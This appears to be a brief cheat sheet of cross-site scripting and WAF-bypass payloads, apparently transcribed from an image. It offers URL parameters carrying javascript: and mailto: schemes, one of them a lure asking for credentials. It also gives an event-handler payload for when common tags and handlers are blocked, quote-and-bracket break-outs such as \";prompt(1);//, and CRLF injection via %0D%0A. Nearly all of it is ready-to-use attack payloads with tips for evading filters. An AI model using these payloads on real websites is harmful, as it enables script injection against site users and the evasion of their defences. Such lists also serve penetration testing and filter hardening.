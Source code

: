 WAF Got You Down or Certain Tags Stripped?
==============

/?SomeParam=https://TheDomainYouAreOne&TheirParam=javascript://prompt(1)

/?SomeParam=https://TheDomainYouAreOne&TheirParam=mailto://SomeoneEvil@SOMEDOMAIN?Subject=How about that!%26Body=Please send me credentials

/?SomeParam=https://TheDomainYouAreOne&TheirParam=https://www.google.com

Did you break the tag for script, iframe, img, a etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:

&lt;XXXXXXX ondblclick=prompt(1)&gt;Some Text, Don't even care to end the tag either.

Don't forget the injection might not be a form tag but in the javascript.
==============
";prompt(1);//

';prompt(1);//

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.

"};prompt(1);//

Don't forget %0D%0A if you need a new line
